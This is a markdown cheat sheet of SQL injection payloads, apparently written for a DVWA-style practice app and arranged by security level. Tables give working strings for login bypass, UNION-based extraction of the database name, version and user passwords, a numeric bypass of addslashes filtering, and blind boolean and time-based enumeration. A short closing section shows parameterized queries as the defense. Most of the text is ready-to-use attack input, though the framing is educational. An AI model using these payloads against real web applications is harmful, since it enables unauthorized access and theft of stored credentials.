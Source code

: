 # SQL: Injection

## SQL Injection (SQLi) Payloads

**SQL Injection (SQLi)** is a vulnerability where an attacker manipulates a web application's database queries by inserting malicious SQL code into user input (e.g., login fields, URL parameters).

### **Vulnerability Level: LOW (Unsanitized Input)**

The application takes input and directly concatenates it into the query. The attack is simple: use a single quote (`'`) to break the original query structure.

**Original Vulnerable Query (Backend):**

```sql
SELECT first_name, last_name FROM users WHERE user_id = '$id';
```

### **1. Authentication Bypass**

The goal is to trick the `WHERE` clause into always evaluating as **TRUE**, thus logging the attacker in or returning all records.

| Attack Goal | Input Payload for `$id` | Resulting Backend Query |
| --- | --- | --- |
| **Bypass Login** | `1' OR '1'='1` | `SELECT first_name, last_name FROM users WHERE user_id = '1' OR '1'='1';` |
| **Comment Out** | `1' OR 1=1 --` | `SELECT first_name, last_name FROM users WHERE user_id = '1' OR 1=1 --';` |
| **Error (Initial Test)** | `5'` | `SELECT first_name, last_name FROM users WHERE user_id = '5'';` **(Syntax Error)** |

### **2. Union-Based Data Extraction**

The goal is to use the **`UNION SELECT`** operator to append the results of a new query (targeting sensitive data) to the original result set.

| Attack Goal | Payloads to Inject | Purpose / Resulting Action |
| --- | --- | --- |
| **Find Column Count** | `1' ORDER BY 3 --+1' ORDER BY 4 --+` | Increments until an error occurs. If `4` errors, the query has **3 columns**. |
| **Make Original Query Empty** | `-1' UNION SELECT 1,2,3 --+` | A non-existent ID (`-1`) ensures the first `SELECT` returns nothing, making the injected `SELECT` visible. |
| **Extract Database Info** | `-1' UNION SELECT 1, database(), version() --+` | **Payload:** Injects functions to retrieve the current database name and version. |
| **Extract User Credentials** | `-1' UNION SELECT user, password, 3 FROM users --+` | **Payload:** Injects a query to fetch the `user` and `password` columns from the `users` table. |

---

### **Vulnerability Level: MEDIUM (Partial Filtering)**

The application uses functions like `addslashes()` on strings, escaping the single quote (`'`) to `\'`. This defeats simple string-based injections. However, if the `user_id` field is treated as a **numeric integer** in the backend query, the vulnerability persists.

**Example Bypass (if `user_id` is an unquoted integer):**
| Attack Goal | Input Payload for `$id` | Resulting Backend Query (Vulnerable) |
| :--- | :--- | :--- |
| **Bypass Filter** | `1 OR 1=1` | `SELECT first_name, last_name FROM users WHERE user_id = 1 OR 1=1;` |

---

### **Blind SQL Injection Payloads**

Used when the application does not return data or error messages. The attacker relies on **TRUE/FALSE** conditions to enumerate the database structure character by character.

### **1. Blind Boolean-Based SQLi**

The application response changes subtly (e.g., text appears/disappears) based on the query's TRUE/FALSE result.

| Attack Goal | Test Payload (Condition) | Resulting Action |
| --- | --- | --- |
| **Test DB Length** | `1' AND (LENGTH(database())) = 8 --+` | If TRUE, page content is normal. If FALSE, page content changes. |
| **Test First Letter** | `1' AND SUBSTRING(database(), 1, 1) = 'a' --+` | Attacker iterates through letters ('a', 'b', 'c', etc.) until the condition is TRUE. |

### **2. Blind Time-Based SQLi**

The attacker uses time functions to force a delay based on a TRUE/FALSE result.

| Attack Goal | Test Payload (Condition) | Resulting Action |
| --- | --- | --- |
| **Conditional Delay** | `1' AND IF(LENGTH(database()) = 8, SLEEP(5), 0) --+` | **If TRUE:** The server waits for 5 seconds before responding. **If FALSE:** The server responds immediately. |
| **Extract First Letter** | `1' AND IF(SUBSTRING(database(), 1, 1) = 'd', SLEEP(5), 0) --+` | The attacker uses a binary search or iteration to identify the character based on the time delay. |

---

### **Defense: High Security (Parameterized Queries)**

This is the only effective defense against SQLi. Input is sent to the database separately from the SQL command. The database engine treats the user input as a literal value, not as executable code.

**Secure Backend Code (Using a Parameter/Placeholder):**

```sql
$stmt = $pdo->prepare("SELECT first_name, last_name FROM users WHERE user_id = ?");
$stmt->execute([$id]);
```

**Attacker Input:** `1' OR 1=1 --`**Database Execution:** The database literally searches for a user ID that is a **string** `'1' OR 1=1 --`, which will not return sensitive data. The injected code is treated as data, not a command.
